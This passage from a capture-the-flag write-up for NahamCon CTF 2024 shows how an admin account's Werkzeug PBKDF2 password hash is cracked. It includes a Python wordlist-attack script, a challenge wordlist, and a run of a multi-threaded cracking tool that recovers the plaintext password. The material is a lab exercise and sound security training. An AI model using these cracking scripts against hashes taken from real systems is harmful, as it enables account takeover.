 With that said, let's crack `website_admin_account`'s password hash via the `check_password_hash` function!

**But wait, which password wordlist should we use? Luckily, the challenge provided a [wordlist](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-CTF-2024/Web/Hacker-Web-Store/password_list.txt) for us!**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|13:56:45(HKT)]
└> file password_list.txt 
password_list.txt: Unicode text, UTF-8 text
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|13:59:11(HKT)]
└> head password_list.txt
!!!\\\\
"LANYHIA"
#sweet16#
&^#&#@
(teamokike20)
*25258093*
*hazardous*
+-*/963258741
...love<3
00-1689
```

Let's do this!

```python
#!/usr/bin/env python3
from werkzeug.security import check_password_hash

def crackPassword(hash, wordlist):
    with open(wordlist, 'r') as file:
        for line in file:
            password = line.strip()
            print(f'[*] Trying password "{password}"', end='\r')

            isCorrect = check_password_hash(hash, password)
            if not isCorrect:
                continue

            print(f'\n[+] Password hash "{hash}" is cracked! Password is "{password}"')
            exit(0)

if __name__ == '__main__':
    adminHash = 'pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57'
    wordlistPath = './password_list.txt'

    crackPassword(adminHash, wordlistPath)
```

However, my script didn't implement multi-threading, so it's a little bit slow. 

**If you want to crack the hash faster with multi-threading, you can use [Werkzeug Cracker](https://github.com/AnataarXVI/Werkzeug-Cracker):**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|14:19:06(HKT)]
└> echo -n 'pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57' > hash.txt
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|14:19:29(HKT)]
└> python3 /opt/Werkzeug-Cracker/werkzeug_cracker.py -p ./hash.txt -w password_list.txt -t 50
Countdown |█████████████████████▊          | 1361/2008

Password found: ntadmin1234
```
